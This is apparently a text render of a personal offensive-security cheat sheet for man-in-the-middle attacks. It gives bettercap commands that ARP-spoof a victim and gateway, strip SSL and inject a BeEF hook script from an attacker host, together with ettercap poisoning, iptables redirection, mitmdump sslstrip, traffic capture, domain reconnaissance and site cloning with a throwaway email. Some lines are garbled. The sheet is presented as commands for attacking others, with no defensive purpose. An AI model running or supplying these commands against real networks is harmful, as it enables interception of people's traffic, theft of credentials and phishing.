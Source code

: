 -----------------------------------------------------[BEEF-BETTERCAP-PROXY]----------------------------------------
--> SETS UP A ARP PROXY ON A TARGET BETWEEN HOST AND GATEWAY.
  [Launch BEEF]
  * Beef-xss 
  [Set Up Proxy]
  * set http.proxy.injectjs http://attack_ip:3000/hook.js
  * set https.proxy.injectjs https://attack_ip:3000/hook.js
  * set https.proxy.sslstrip true
  * set http.proxy.sslstrip true
  * http.proxy on
  * https.proxy on
  * set arp.spoof.targets 192.victim_ip, 192.gateway_ip
  * net.probe on
  * arp.spoof on
  * arp.spoof enable forwarding (std_out for results) 

----------------------------------------------------[ARP-POISON+SSL_SRIP]---------------------------------------------
-->[ARP-Poison]

* ettercap -Tq -M arp:remote -i eth0 -S /192.gateway_ip// //192.victim_ip

[IP-TABLE RULES] -->> any tcp traffic coming to 80 to  8080; so we can we use the proxy and ssl strip 
*  iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 8080
m 
*  echo "1" > /proc/sys/net/ipv4/ip_forward

[RUN PROXY] 
*  mitmdump -s sslstrip.py -m transparent

----------------------------------------------------[DUMPING PKSID (WPA2) ]---------------------------------------------

[TCP DUMP]
tcpdump -s 0 port ftp or ssh -i eth0 -w mycap.pcap
----------------------------------------------------[tracking domain]---------------------------------------------

* ping [ping with both 'www' and naked domain
* nslookup [[ping with both 'www' and naked domain]
* use censys to find history between server, origin and destination. 
* [https://github.com/censys/censys-python]

---------------------------------------[DNS and reverse DNS lookup]-----------------------------------------
* dig compass-security.com
* dig -x 10.5.23.42

----------------------------------------------[COPY WEBPAGE ] -------------------------------------------------]
* sudo apt install httrack webhttrack
* httprack -w domain.com
* tempmailer.de --> Use throw away email 
